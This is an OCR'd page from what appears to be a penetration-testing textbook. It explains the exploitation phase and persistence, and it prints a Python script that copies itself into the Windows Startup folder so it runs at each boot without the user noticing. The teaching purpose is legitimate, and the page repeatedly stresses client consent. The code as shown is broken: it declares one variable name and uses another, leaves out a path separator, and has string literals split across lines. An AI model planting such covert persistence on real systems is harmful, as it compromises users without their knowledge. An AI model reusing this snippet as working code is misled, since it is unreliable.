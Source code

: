 • Exploit development: Pentesters can develop or use exploits, which are programs or scripts
that are designed to take advantage of specific vulnerabilities found in systems. These exploits
can exploit weaknesses such as security flaws, injection vulnerabilities, authentication problems,
or misconfigurations.
• Control and access: If the exploitation is successful, pentesters can gain access to sensitive
systems or data. This access is done under strict control and with the customer’s permission.
The objective is to demonstrate the potential impact of a real attack if the vulnerability is
not corrected.
• Access maintenance (persistence): In some cases, pentesters may attempt to maintain access
to a compromised system even after they have been detected. This is known as persistence
and simulates the tactics that are used by real attackers to maintain their presence on a
compromised system.
Important note
In other types of pentesting, the persistence phase is included in the post-exploitation phase
instead of in the exploitation phase. Both are valid; it depends on the criteria of the bug hunter.
Phases of a pentest 87
The exploitation phase is crucial to demonstrate the real risk posed by the identified vulnerabilities
and to provide a more complete view of the security of the target environment. However, it must be
carried out with caution and always with the consent and supervision of the customer to ensure that
it does not cause damage or unwanted disruption to systems.
Let’s look at an example of persistence. Suppose you’re interested in creating a simple Python script that
can run on a target system every time it is started. The goal is for the script to run in the background
without the user noticing it. Here is a basic example of a Python script that could accomplish this:
import os
import shutil
import sys
# Path of the directory where the persistence script will be copied to
persistence_dir = os.environ['APPDATA'] + '\\Microsoft\Windows\Start
Menu\Programs\Startup'
# persistence file name (change as needed)
file_filename = 'persistence.py'
# We check if the script is already in the persistence location
if not os.path.exists(persistence_dir + filename):
try:
# Copy this script to the persistence directory.
shutil.copyfile(sys.argv[0], persistence_dir + filename)
print('Script successfully copied to the persistence
location.')
except Exception as e:
print('Error copying persistence script:', str(e))
else:
print('Persistence script already exists in the start location.')
# Here you can add any additional code you wish to run in the
background.
# For this example, we're simply going to make the script wait and do
nothing.